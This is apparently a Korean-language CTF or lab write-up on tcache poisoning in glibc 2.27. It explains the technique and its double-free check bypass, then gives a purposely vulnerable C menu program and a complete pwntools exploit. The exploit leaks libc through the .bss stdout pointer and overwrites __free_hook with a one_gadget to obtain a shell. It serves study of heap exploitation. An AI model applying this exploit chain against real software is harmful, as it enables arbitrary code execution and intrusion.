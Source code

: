 #### version
glibc 2.27


### Tcache Poisoning 이란?
Tcache poisoning은 중복으로 연결된 청크를 재할당하면, 그 청크가 해제된 청크인 동시에, 할당된 청크라는 특징을 이용한다. 이러한 중첩 상태를 이용하면 공격자는 임의 주소에 청크를 할당할 수 있으며, 그 청크를 이용하여 임의 주소의 데이터를 읽거나 조작할 수 있게 됩니다.
Tcache Dup: Double free 등을 이용하여 tcache에 같은 청크를 두 번 이상 연결시키는 기법.
Tcache Poisoning : tcache에 원하는 주소를 추가하여 해당 주소를 할당시키는 기법, 임의 주소 읽기, 쓰기 가능


### 원리
중복으로 연결되 청크를 재할당하면 그 청크는 할당된 청크이며 해제된 청크이다. 이떄 해제된 청크를 기준으로 fd와 bk부분을 보면 할당된 청크를 기준으로 하였을 때 해당 부분은 data 부분이다. 즉 할당된 청크의 data 부분을 조작함으로써 해제된 청크의 fd bk를 조작 가능하고 임의 주소에 청크 할당이 가능하다.

이렇게 될 경우 임의 주소 읽기와 쓰기가 가능해진다.

### double free 보호기법 우회
2.27에서의 double free 보호기법은 다음과 같다.
```c
if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
```
여기서 e->key == tcache로 검증이 이루어지는데 e->key 만 변조할 수 있다면 이를 우회하여 double free bug를 발생시킬 수 있다.

### 예제
```c
// Name: tcache_poison.c
// Compile: gcc -o tcache_poison tcache_poison.c -no-pie -Wl,-z,relro,-z,now

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  void *chunk = NULL;
  unsigned int size;
  int idx;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  while (1) {
    printf("1. Allocate\n");
    printf("2. Free\n");
    printf("3. Print\n");
    printf("4. Edit\n");
    scanf("%d", &idx);

    switch (idx) {
      case 1:
        printf("Size: ");
        scanf("%d", &size);
        chunk = malloc(size);
        printf("Content: ");
        read(0, chunk, size - 1);
        break;
      case 2:
        free(chunk);
        break;
      case 3:
        printf("Content: %s", chunk);
        break;
      case 4:
        printf("Edit chunk: ");
        read(0, chunk, size - 1);
        break;
      default:
        break;
    }
  }
  
  return 0;
}
```

시나리오

일반적으로 `setvbuf(stdout, 0, 2, 0);`와 같이 표준 출력 스트림인 `stdout`을 코드 상에서 명시적으로 사용하면, 바이너리의 .bss 영역에 libc 내 `_IO_2_1_stdout_`을 가리키는 포인터가 존재하게 된다. .bss 영역 내의 `stdout` 포인터는 바이너리가 실행된 후 libc 영역의 `_IO_2_1_stdout_` 주소를 가리키도록 초기화되므로, 이를 릭할 수만 있다면 libc가 매핑된 주소를 계산할 수 있다.

이를 위해 Tcache Poisoning으로 .bss 섹션의 `stdout`에 청크를 할당하고, 값을 읽어서 libc를 leak 하자.

그리고 hook 주소를 알아내서 one_gadget으로 overwrite하여 셸을 딴다.

### payload
```python
from pwn import *

context.log_level = 'debug'


lib = ELF("./libc-2.27.so")
p = process("./t")

malloc_hook = lib.symbols['__free_hook']

pause()

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'48')
p.sendafter(b"Content: ", b'a')


p.sendlineafter(b"4. Edit\n", b'2')

p.sendlineafter(b"4. Edit\n", b'4')
p.sendlineafter(b"Edit chunk: ", b'bbbbbbbb')

p.sendlineafter(b"4. Edit\n", b'2')

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'48')
bss_add = 0x601000
p.sendafter(b"Content: ", p64(bss_add))

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'48')
p.sendlineafter(b"Content: ", b'bbbbbbbb')

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'48')
p.sendafter(b"Content: ", b'aaaaaaaabbbbbbbb')

p.sendlineafter(b"4. Edit\n", b'3')
p.recvuntil(b"aaaaaaaabbbbbbbb")
libc_leak = u64(p.recv(6)+b"\x00\x00")
libc_base = libc_leak - 0x3ec760

#print(hex(libc_base))

one = libc_base + 0x4f302
hook = libc_base + malloc_hook

###########

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'64')
p.sendafter(b"Content: ", b'a')


p.sendlineafter(b"4. Edit\n", b'2')

p.sendlineafter(b"4. Edit\n", b'4')
p.sendlineafter(b"Edit chunk: ", b'bbbbbbbb')

p.sendlineafter(b"4. Edit\n", b'2')

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'64')
p.sendafter(b"Content: ", p64(hook))

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'64')
p.sendlineafter(b"Content: ", b'bbbbbbbb')

p.sendlineafter(b"4. Edit\n", b'1')
p.sendlineafter(b"Size: ", b'64')
p.sendafter(b"Content: ", p64(one))

p.sendlineafter(b"4. Edit\n", b'2')

p.interactive()

```

one_gadget 조건땜에 malloc_hook은 안되고 free_hook 사용하자

![](https://i.imgur.com/iHHDtrQ.png)
